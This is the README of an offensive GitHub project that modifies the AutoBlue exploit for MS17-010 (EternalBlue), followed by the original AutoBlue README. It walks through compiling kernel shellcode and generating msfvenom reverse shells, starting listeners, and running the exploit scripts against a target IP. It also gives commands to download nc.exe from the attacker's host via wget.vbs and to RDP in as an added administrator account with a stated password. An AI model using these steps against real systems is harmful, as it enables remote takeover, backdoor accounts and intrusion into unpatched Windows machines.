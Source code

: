 ########################### Auto Blue Light Special ###########################

It's called Auto Blue Light Special because it's just a modification of AutoBlue and because of a conversation my friend Julien and I were having about the old school K-Mart blue light specials

This is a modification of 3ndG4me's AutoBlue found here: https://github.com/3ndG4me/AutoBlue-MS17-010
I also stole the code to add a user from thel3l: https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a

# What does this script do?
This script exploits MS17-010 then writes wget.vbs to a folder and gives you a limited shell. You can use wget.vbs to transfer a file to the victim (nc.exe or maybe your custom executable) to obtain a not-so-limited shell. It also creates a user and adds that user to the administrators group so you can RDP to the machine.

# Have you tested this?
Only on Windows XP x86. It's only going to work when using the zzz_exploit.py script. You might be able to re-use my code in eternalblue_exploit(7,8,10).py to perform these actions. Maybe, maybe not. I haven't tried. To find my modifications, open zzz_exploit.py and ctrl+f for ReverendShell.

# Why did I modify this script?
I was rooting an XP box and was using AutoBlue because I really like it. It just works. However it gives you a rather limited, non-interactive shell. You can't change directories with this shell, I couldn't echo text to a file and I couldn't copy files from a SMB share (which I don't think is the shell's fault). I needed a better shell but to do that required some way of transferring a file to the victim. I could run cscript but I couldn't echo to a file, hence the modification. With wget.vbs you can download a file you're hosting on, say, a python SimpleHTTPServer. Later on I found thel3l's code to add a user and incorporated it into this script.

# How do I use it?
Follow the directions as written. If everything is successful the output will display which folder the wget.vbs file is in. From there simply issue:
`> cscript c:\foldername\wget.vbs http://your.ip.here:port/ncWin32.exe c:\path\on\victim\ncWin32.exe`

And if you want to RDP to the target after the script is run you can issue:
`# rdesktop -u reverendshell x.x.x.x`
The password will be: haxxx

You may view a demo video here: https://youtu.be/HOvV0utZK_w

########################### Auto Blue Light Special ###########################

####### Everything below this line is from the original AutoBlue README #######

# MS17-010 Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion.

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64)

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010

